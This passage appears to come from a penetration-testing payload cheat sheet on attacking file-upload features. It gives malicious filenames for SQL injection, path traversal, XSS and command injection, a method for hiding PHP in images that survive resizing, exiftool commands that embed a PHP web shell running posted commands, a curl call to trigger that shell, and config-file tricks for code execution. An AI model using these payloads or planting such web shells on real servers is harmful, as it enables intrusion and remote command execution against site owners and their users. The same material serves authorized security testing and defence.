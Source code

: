 










## Filename vulnerabilities
Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

* Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
* LFI/Path Traversal Payloads: e.g. `image.png../../../../../../../etc/passwd`
* XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
* File Traversal e.g. `../../../tmp/lol.png`
* Command Injection e.g. `; sleep 10;`

Also you upload:

* HTML/SVG files to trigger an XSS
* EICAR file to check the presence of an antivirus

## Picture Compression
Create valid pictures hosting PHP code. Upload the picture and use a Local File Inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

* Picture Metadata, hide the payload inside a comment tag in the metadata.
* Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating getimagesize() and imagecreatefromgif().
    * [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    * [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    * [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


## Picture with custom metadata
Create a custom picture and insert exif tag with exiftool. A list of multiple exif tags can be found at exiv2.org
```bash
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

```

## Configuration Files
If you are trying to upload files to a :
* PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
* ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
* uWSGI server, take a look at the uwsgi.ini trick to execute code:
```bash
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
```